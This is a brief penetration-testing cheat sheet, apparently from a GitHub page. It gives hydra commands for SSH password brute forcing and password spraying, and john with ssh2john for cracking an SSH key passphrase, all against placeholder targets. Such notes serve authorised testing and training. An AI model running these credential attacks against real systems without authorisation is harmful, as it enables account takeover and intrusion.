 ## 🔐 Brute Force
```bash
hydra -l user -P /path/to/wordlist.txt -t <THREADS> ssh://X.X.X.X
```

> SSH Key Brute Forcing
```bash
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
john --wordlist=path/to/wordlist.txt id_rsa.hash
```

## 🔐 Password Spraying
```bash
hydra -L users.txt -p 'Password123' ssh://<target_ip>
```